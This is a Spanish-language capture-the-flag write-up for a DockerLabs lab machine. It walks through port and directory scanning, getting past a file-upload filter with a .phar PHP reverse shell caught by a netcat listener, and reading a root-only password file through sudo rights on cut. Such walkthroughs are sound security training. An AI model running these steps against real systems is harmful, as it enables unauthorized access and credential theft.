







[[Writeups]]
#Writeups #Easy #DockerLabs


Empezamos con un escaneo general:
```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
[sudo] contraseña para dached: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 20:04 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.09 seconds
```

Viendo que solo hay un servicio http vamos a ver directamente la web y nos aparece esta web:



hacemos una búsqueda de fuerza bruta con gobuster para encontrar directorios y nos muestra esto:

```zsh
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html,js,py,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,js,py,xml,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 8235]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/scripts.js           (Status: 200) [Size: 919]
/upload.php           (Status: 200) [Size: 0]
/machine.php          (Status: 200) [Size: 1361]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================
```

## **/uploads :**



## **/machine.php :**



Con esto vemos que tenemos el directorio de uploads con un listado de archivos subidos al servidor vació y machine.php que es un directorio para subir archivos, con esto vamos a intentar subir una reverse shell con formato php a ver si funciona:



Vemos que con la extensión .php da error pero vamos a probar todas las extensiones validas de php a ver si están todas sanatizadas, en HackTricks podemos ver todas estas extensiones para usar :

**PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module_

Podemos hacerlo manualmente una a una o automatizado desde BurpSuite, en ambos casos obtendremos que la extensión valida a usar es .phar.





le damos a upload y :



por lo que iremos al directorio de /uploads donde nos aparecerá el archivo, antes abrimos un net cat y le clickamos al archivo y obtenemos acceso:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...


#Clickamos el .phar en el directorio /uploads


connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 48488
Linux f07770b89658 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 x86_64 x86_64 GNU/Linux
 10:52:15 up 26 min,  0 user,  load average: 0.42, 1.09, 1.81
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@f07770b89658:/$ 

```

Entramos al sistema y enumeramos permisos Sudo, encontramos esto:

 ```bash
 www-data@f07770b89658:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on f07770b89658:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on f07770b89658:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
```

tenemos permisos de cut y grep con sudo, con esto en gtfobins podemos ver que podemos visualizar archivos a nivel de sudo por lo que buscaremos alguna nota o mensaje que haya en el sistema, empezamos buscando textos .txt:

```bash

www-data@f07770b89658:/$ find / -type f -name "*.txt"
find / -type f -name "*.txt"
find: '/etc/ssl/private': Permission denied
find: '/home/ubuntu': Permission denied
find: '/home/dbadmin': Permission denied
/opt/nota.txt


#Nos apareceran mas archivos con permisos denegados para acceder


www-data@f07770b89658:/$ cd /opt 
cd /opt
www-data@f07770b89658:/opt$ ls
ls
nota.txt
www-data@f07770b89658:/opt$ cat nota.txt
cat nota.txt
Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.

```

Vemos que hay un txt que podemos ver en /opt asi que vemos el mensaje y dice que en root tenemos una clave.txt que no tenemos permisos para acceder a no ser que seamos root, pero con cut o grep podemos leerlo, vamos a usar el comando que nos proporciona gtfobins con nuestra ruta personalizada:

```bash
www-data@f07770b89658:/opt$ sudo cut -d "" -f1 /root/clave.txt
sudo cut -d "" -f1 /root/clave.txt
dockerlabsmolamogollon123
```

hacemos un su a root y obtenemos maximos privilegios:


